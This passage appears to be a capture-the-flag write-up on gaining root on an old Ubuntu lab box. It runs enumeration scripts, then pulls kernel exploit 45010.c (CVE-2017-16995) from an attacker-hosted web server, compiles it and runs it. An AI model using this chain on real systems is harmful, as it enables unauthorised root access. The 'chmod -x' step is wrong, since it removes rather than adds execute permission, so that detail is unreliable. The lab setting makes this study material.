

these are the system generated mails, nothing interesting here

no interesting files belongs to us you can check it via `find / -user help 2>/dev/null | grep -v "/proc" | grep -v "/home/help/help/"` 

i’ll upload the [linpeas.sh](http://linpeas.sh) to automate the enumeration

but i didin’t find anything useful from linpeas output, so i’ve decided to look for the Kernel exploits, so i first grab the system version and OS information

```powershell
cat /etc/*-release
```



as it is ubuntu 16.4, it’s possibility to get kernel exploit as it is old OS

then i uploaded the [linux-exploit-suggester.sh](https://github.com/The-Z-Labs/linux-exploit-suggester) to target machine and run



CVE-2017-16995: is highly probable so i downloaded the exploit in my kali machine start `python3 -m http.server` and use wget to download 45010.c to target machine

then i compiled c file using 

```powershell
gcc -o exploit 45010.c
```

make it executable using `chmod -x exploit` and then run exploit `./exploit` 

